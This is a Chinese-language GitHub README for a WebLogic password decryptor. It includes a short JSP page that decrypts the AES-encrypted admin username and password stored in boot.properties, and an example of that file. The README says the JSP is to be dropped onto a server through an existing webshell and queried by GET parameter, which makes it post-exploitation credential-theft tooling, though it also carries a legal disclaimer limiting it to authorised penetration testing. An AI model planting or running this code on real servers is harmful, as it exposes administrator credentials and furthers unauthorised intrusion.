



## jsp在线解密weblogic，加强判断，get传参

## USAGE

`x.jsp?p=AES密码`

### Example:

```
root@0ba3ae6d6212:~# cat ./Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties
# Generated by Configuration Wizard on Mon May 16 07:39:16 UTC 2016

username={AES}xdwPe62ds+jcPCQwwLn/VR3fI0e9ZGkFz96ZBqmvRpY=
password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=

root@0ba3ae6d6212:~# 
```



```
<%@page pageEncoding="utf-8" %>
<%@page import="weblogic.security.internal.*,weblogic.security.internal.encryption.*" %>
<%
    EncryptionService es = null;
    ClearOrEncryptedService ces = null;
    String s = request.getParameter("p");
    es = SerializedSystemIni.getEncryptionService();
    if (es == null) {
        out.println("Unable to initialize encryption service");
        return;
    }
    ces = new ClearOrEncryptedService(es);
    if (s != null && s != ces.decrypt(s)) {
        out.println("[+] Data= " + s + "<br/>");
        out.println("[+] Decode_Data= " + ces.decrypt(s));
    } else {
        out.println("Decode Fail !");
    }
%>
```


# WebLogicPasswordDecryptorUi
weblogic解密JAVA UI版,欢迎提交BUG



## WeblogicPassword 在线解密(转)

>  原文：https://xz.aliyun.com/t/2149

如有webshell可进行在线解密
把```weblogicdecryptor.jsp```放入服务器进行访问，s="" 中填写 weblogic 的加密密码，可在 boot.properties 文件中找到。默认路径为```../../../Server/security/boot.properties```



## 法律
> 该项目仅供合法的渗透测试以及爱好者参考学习，请各位遵守《中华人民共和国网络安全法》以及相应地方的法律，禁止使用该项目进行违法操作，否则自行承担相关责任！
